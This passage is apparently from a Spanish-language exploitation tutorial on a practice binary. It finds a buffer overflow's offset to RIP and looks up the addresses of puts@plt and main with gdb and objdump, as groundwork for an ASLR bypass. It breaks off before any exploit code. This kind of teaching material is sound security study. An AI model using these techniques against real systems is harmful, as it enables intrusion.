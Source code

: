 ```
gef➤  patter offset jaaaaaaa
[+] Searching for 'jaaaaaaa'
[+] Found at offset 120 (little-endian search) likely
[+] Found at offset 113 (big-endian search) 
```

Vemos como el offset para llegar al RIP es ```120```

## Sacando las direcciones de puts y puts@got

Ahora viene la parte mas compleja, para esa practica tenemos que hacer 3 cosas 

- Sacar la direccion de puts@plt
- La direccion de main
- La direccion de puts@got

### Direccion de puts@plt

Esto lo hacemos ya que necesitamos llamar a puts y afortunadamente no se ve afectada por el ASLR, la primera manera de obtenerlos es poner el comando ```p  puts@plt``` en gdb, nos debe de mostrar algo como esto:

```
gef➤  p 'puts@plt'
$1 = {<text variable, no debug info>} 0x401030 <puts@plt>
```
Ahi podemos ver que es ```0x401030```.
Para la segunda forma podemos usar el comando ```objdump``` de la siguiente manera

```
objdump -d -M intel vuln | grep "puts@plt"
```
Y nos debe de mostrar algo como esto:

```
0000000000401020 <puts@plt-0x10>:
0000000000401030 <puts@plt>:
  40115f:	e8 cc fe ff ff       	call   401030 <puts@plt>
```
Vemos que es exactamente la misma direccion.

### La direccion de main

Esto es util ya que si el programa se detiene, ahora sabra que la direccion base del ASLR sera random otra vez.
Para esto en el gdb usaremos el comando ```p main``` y nos muesta esto:

```
gef➤  p main
$2 = {<text variable, no debug info>} 0x401146 <main>
```
Ahora sabemos que la direccion de main es ```0x401146```

### Direccion de puts@got
